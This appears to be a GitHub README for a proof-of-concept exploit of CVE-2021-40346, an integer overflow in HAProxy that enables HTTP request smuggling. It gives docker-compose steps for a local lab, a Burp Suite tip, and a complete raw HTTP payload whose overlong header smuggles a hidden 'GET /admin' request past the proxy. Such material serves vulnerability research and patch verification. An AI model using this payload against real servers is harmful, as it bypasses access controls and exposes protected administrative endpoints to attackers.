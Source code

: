 # CVE-2021-40346-POC #

CVE-2021-40346 integer overflow enables http smuggling


## Build ##
```sh
cd 6-haproxy
docker-compose build 
docker-compose up -d
```

## Burp Suite
Remember to uncheck "update content length" when dealing with Smuggling in Burp!
![image](https://user-images.githubusercontent.com/31791455/140394586-6a44d0f5-363e-455c-b22b-f619868bcc87.png)


## Exploit ##
Be careful - note that an extra line might break the exploit.
```
POST /guest HTTP/1.1
Host: localhost:10001
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /admin HTTP/1.1
h:GET /guest HTTP/1.1
Host: localhost:10001



```
## Recommended reading:
https://forum.butian.net/share/694
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

## Credits:
https://github.com/donky16/CVE-2021-40346-POC


